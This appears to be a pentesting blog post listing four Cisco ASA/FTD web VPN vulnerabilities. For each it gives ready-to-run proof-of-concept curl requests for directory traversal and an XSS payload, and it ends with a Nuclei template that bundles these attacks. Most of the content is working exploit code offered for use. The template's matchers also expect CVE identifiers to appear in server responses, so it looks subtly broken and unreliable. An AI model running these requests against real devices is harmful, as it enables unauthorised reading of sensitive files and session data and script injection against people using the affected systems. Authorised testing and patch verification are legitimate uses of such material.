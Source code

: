 ```yaml
---
layout: post
title: Overview Cisco SSL VPN Service
categories: [Pentesting,RedTeam, WEB, Cisco ]
---
```

Analysis of some CVEs present for this software.

## Common CVE's


### CVE-2018-0296
A vulnerability in the web interface of the Cisco Adaptive Security Appliance (ASA) could allow an unauthenticated, remote attacker to cause an affected device to reload unexpectedly, resulting in a denial of service (DoS) condition. It is also possible on certain software releases that the ASA will not reload, but an attacker could view sensitive system information without authentication by using directory traversal techniques

Check if the endpoint is vulnerable 
```
curl -i -k "https://HOST/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
```

POC
```
curl -i -k "https://HOST/+CSCOU+/../+CSCOE+/files/file_list.json" --path-as-is
curl -i -k "https://HOST/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is

``` 

Reference:
- [HackerOne](https://hackerone.com/reports/696400)
- [NIST](https://nvd.nist.gov/vuln/detail/cve-2018-0296)
- [Github Poc](https://github.com/yassineaboukir/CVE-2018-0296)

### CVE-2020-3580 - XXS 
The vulnerabilities are due to insufficient validation of user-supplied input by the web services interface of an affected device. An attacker could exploit these vulnerabilities by persuading a user of the interface to click a crafted link. A successful exploit could allow the attacker to execute arbitrary script code in the context of the interface or allow the attacker to access sensitive, browser-based information.

VIA POST 
```
 /+CSCOE+/saml/sp/acs?tgname=a
SAMLResponse="><svg/onload=alert('xss')>
```
Reference:
- [HackerOne](https://hackerone.com/reports/1243650)


### CVE-2020-3187 
A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and obtain read and delete access to sensitive files on a targeted system.


Check if the endpoint is vulnerable 
```
/+CSCOE+/session_password.html -> 200 = Vulnerable
/+CSCOE+/session_password.html -> 404 = Patched
```
Exploit 
```
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://HOST/+CSCOE+/session_password.html
```
Reference:
- [HackerOne](https://hackerone.com/reports/987090)
- [NIST](https://nvd.nist.gov/vuln/detail/cve-2020-3187)

### CVE-2020-3452
A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and read sensitive files on a targeted system.

POC
```
/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/wrong_url.html&default-language&lang=../
```
OR 
```
curl -i -s -k -X $'GET' \
    -H $'Host: HOST' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: https://HOST/+CSCOE+/logon.html?fcadbadd=1' -H $'DNT: 1' -H $'Connection: close' -H $'Cookie: webvpnlogin=1; webvpnLang=en' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'webvpnlogin=1; webvpnLang=en' \
    $'https://HOST/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../'
```
Reference: 
- [HackerOne](https://hackerone.com/reports/943717)
- [HackerOne](https://hackerone.com/reports/924407)
- [NIST](https://nvd.nist.gov/vuln/detail/cve-2020-3452)

## Nuclei Template

```
id: cisco-multiple-cves

info:
  name: Cisco ASA/FTD Multiple CVEs Exploit
  author: security-researcher
  severity: critical
  description: |
    Este template testa múltiplas vulnerabilidades no Cisco ASA e FTD, incluindo Local File Inclusion (LFI), Directory Traversal e Cross-Site Scripting (XSS). As CVEs incluídas são CVE-2018-0296, CVE-2020-3580, CVE-2020-3187 e CVE-2020-3452.
  tags: cve,cisco,asa,ftd,lfi,xss,dir-traversal

http:
  - method: GET
    path:
      - "{{BaseURL}}/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions"
    headers:
      Accept-Encoding: deflate
    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - "///sessions"
      - type: status
        status:
          - 200
      - type: word
        words:
          - "CVE-2018-0296"

  - method: POST
    path:
      - "/+CSCOE+/saml/sp/acs?tgname=a"
    body: "SAMLResponse=%22%3E%3Csvg%2Fonload%3Dalert%28document.domain%29%3E"
    headers:
      Cookie: webvpnlogin=1; webvpnLang=en
      User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:89.0) Gecko/20100101 Firefox/89.0
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
      Accept-Language: en-GB,en;q=0.5
      Accept-Encoding: gzip, deflate
      Content-Type: application/x-www-form-urlencoded
      Upgrade-Insecure-Requests: 1
      Connection: close
    matchers-condition: and
    matchers:
      - type: word
        words:
          - "<svg/onload=alert(document.domain)>"
        part: body
      - type: word
        words:
          - "CVE-2020-3580"

  - method: GET
    path:
      - "{{BaseURL}}/+CSCOE+/session_password.html"
    matchers-condition: and
    matchers:
      - type: word
        part: header
        words:
          - webvpn
          - Webvpn
      - type: status
        status:
          - 200
      - type: word
        words:
          - "CVE-2020-3187"

  - method: GET
    path:
      - "{{BaseURL}}/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../"
      - "{{BaseURL}}/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua"
    matchers:
      - type: word
        words:
          - "INTERNAL_PASSWORD_ENABLED"
          - "CONF_VIRTUAL_KEYBOARD"
        condition: and
      - type: word
        words:
          - "CVE-2020-3452"
```
Based on:
- [CVE-2018-0296.yaml](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2018/CVE-2018-0296.yaml)
- [CVE-2020-3580.yaml](https://github.com/projectdiscovery/nuclei-templates/issues/1790)
- [CVE-2020-3187.yaml](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2020/CVE-2020-3187.yaml)
- [CVE-2020-3452.yaml](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2020/CVE-2020-3452.yaml)

